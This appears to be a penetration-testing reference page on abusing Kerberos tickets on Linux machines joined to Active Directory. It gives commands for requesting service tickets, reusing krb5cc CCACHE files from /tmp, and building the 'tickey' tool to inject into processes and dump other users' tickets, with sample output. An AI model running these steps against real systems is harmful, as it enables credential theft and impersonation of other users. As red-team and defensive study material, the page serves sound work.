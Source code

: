 # Linux Active Directory

pA linux machine can also be present inside an Active Directory environment.

A linux machine in an AD might be **storing different CCACHE tickets inside files. This tickets can be used and abused as any other kerberos ticket**. In order to read this tickets you will need to be the user owner of the ticket or **root** inside the machine.

### Pass The Ticket

In this page you are going to find different places were you could **find kerberos tickets inside a linux host**, in the following page you can learn how to transform this CCache tickets formats to Kirbi (the format you need to use in Windows) and also how to perform a PTT attack:

```python
proxychains getST.py -spn cifs/coredc.core.cyber.local@CORE.CYBER.LOCAL -dc-ip coredc.core.cyber.local -k -no-pass "CORE.CYBER.LOCAL/COREWEBDL\$@CORE.CYBER.LOCAL"
```

### CCACHE ticket reuse from /tmp

> When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

List the current ticket used for authentication with `env | grep KRB5CCNAME`. The format is portable and the ticket can be **reused by setting the environment variable** with `export KRB5CCNAME=/tmp/ticket.ccache`. Kerberos ticket name format is `krb5cc_%{uid}` where uid is the user UID.

```bash
ls /tmp/ | grep krb5cc
krb5cc_1000
krb5cc_1569901113
krb5cc_1569901115

export KRB5CCNAME=/tmp/krb5cc_1569901115
```

### CCACHE ticket reuse from keyring

Processes may **store kerberos tickets inside their memory**, this tool can be useful to extract those tickets (ptrace protection should be disabled in the machine `/proc/sys/kernel/yama/ptrace_scope`): [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)

```bash
# Configuration and build
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release

[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```
